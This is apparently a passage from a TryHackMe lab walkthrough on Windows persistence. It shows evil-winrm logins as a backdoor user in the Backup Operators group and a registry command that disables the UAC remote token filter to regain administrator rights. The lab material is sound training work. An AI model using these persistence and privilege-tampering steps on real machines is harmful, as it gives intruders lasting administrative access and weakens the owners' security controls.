 ```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name Type SID Attributes
====================================== ================ ============ ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators Alias S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account Well-known group S-1-5-113 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label S-1-16-8192
```

This is due to User Account Control (UAC). One of the features implemented by UAC, **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:

```shell-session
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:


```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321
 
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name Type SID Attributes
==================================== ================ ============ ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators Alias S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
```